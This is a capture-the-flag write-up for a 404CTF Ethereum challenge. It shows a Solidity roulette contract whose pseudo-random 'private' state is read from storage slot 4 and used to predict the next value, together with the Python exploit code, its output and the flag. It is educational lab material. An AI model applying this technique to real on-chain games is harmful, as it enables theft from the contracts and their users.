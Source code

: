 # Web3 / La Folie du jeu : descente aux enfers 

## Challenge
Alors que vous étiez assis à une table du café Le Procope, vos pensées furent interrompues par l'apparition de la magnifique Marguerite Gauthier. Son regard était aussi pénétrant que ses courbes gracieuses, et son air empreint d'un charme envoûtant ne laissait aucun doute quant à sa nature exceptionnelle.

Elle s'approcha de vous avec grâce, ses pas silencieux comme une promesse d'aventure. Elle vous confia alors les affres qui tourmentaient son âme : c'était à cause d'elle qu'Armand Duval était pris dans une spirale d'addiction aux jeux d'argent qui le détruisait.

Ce n'était pas n'importe quels jeux d'argent qui retenaient Armand prisonnier de leurs charmes sournois. Non, il s'était épris des loteries établies sur la blockchain Ethereum, ces jeux impitoyables où l'espoir et le désespoir se côtoyaient sans relâche, tels des amants inséparables. Ainsi, les dés étaient jetés, et la danse avec le destin commençait. Vous alliez donc vous plonger dans cet univers énigmatique de la blockchain Ethereum, où les paris étaient éternels et les gains fugaces. Pour Marguerite, vous braveriez les tourments, manipuleriez les nombres et les probabilités avec habileté, cherchant à renverser le cours du destin et à redonner à Armand Duval une chance de s'échapper des griffes implacables du jeu.

Les tasses de café fumaient encore devant vous, tandis que vous vous prépariez à affronter les défis à venir. Marguerite vous observait avec un mélange d'inquiétude et d'espoir dans ses yeux. Vous aviez maintenant un objectif commun : sauver l'âme tourmentée d'Armand et lui offrir une nouvelle vie.

Gagnez à la roulette décrite dans le contrat ci-joint :

 
## Inputs
- server at challenges.404ctf.fr:31565
- solidity contract: [Jeu.sol](./Jeu.sol)


## Solution
Here's the contrat: 

```python
// SPDX-License-Identifier: MIT
pragma solidity 0.8.18;

contract Jeu {
    bool public isSolved = false;
    uint public m = 0x7fffffff;
    uint public a = 12345;
    uint public c = 1103515245;

    uint private currentState;

    constructor(uint _start) {
        currentState = _start;
    }

    function guess(uint _next) public returns (bool) {
        currentState = (a * currentState + c) % m;
        isSolved = (_next == currentState) || isSolved;
        return isSolved;
    }
}
```

We need to have variable `isSolved` set to `True`, which we can only do by guessing the next state when calling function `guess()`. To do that, we need the `currentState`, which is a `private variable`... but not that private, since we can access it via its storage slot using method `get_storage_at()`.

Here, `isSolved` is at slot 0, etc. and `currentState` at slot 4.

All we need to do is to get `currentState` at slot 4, predict next state, call `guess()` and verify `isSolved` has been toggled:

```python
is_solved = c.functions.isSolved().call()
print('is_solved', is_solved)

# Get current state at storage position 4
state = int(w3.eth.get_storage_at(addr, 4).hex()[-8:], 16)
print('current_state', hex(state))

# Guess next state
next_ = (12345 * state + 1103515245) % 0x7fffffff
p = c.functions.guess(next_).transact()
print('guess next state', hex(next_))

# Verify we actually solved it
is_solved = c.functions.isSolved().call()
print('is_solved', is_solved)
```

```console
$ python3 sol.py
is_solved False
current_state 0x14691a26
guess next state 0x2144894
is_solved True
```

It should be solved; Let's check it:

```console
$ nc challenges.404ctf.fr 31565
Bienvenue dans l'univers des smart contracts !
JSON-RPC : https://blockchain.challenges.404ctf.fr/
chain ID : 31337
Que voulez-vous faire ?
(...)

Déploiement de Jeu.sol...
Challenge déployé à l'adresse 0xa49385A5db5ADe76fD99827eBaAAc806BbeEaab3

1. Déployer un challenge
2. Utiliser le faucet
3. Vérifier si le challenge est résolu
4. Réinitialiser
5. Quitter

> 3
404CTF{r4Nd0Mn3ss_1S_NOt_s0_345y}

```


## Python code
Complete solution in [sol.py](./sol.py)

## Flag
404CTF{r4Nd0Mn3ss_1S_NOt_s0_345y}
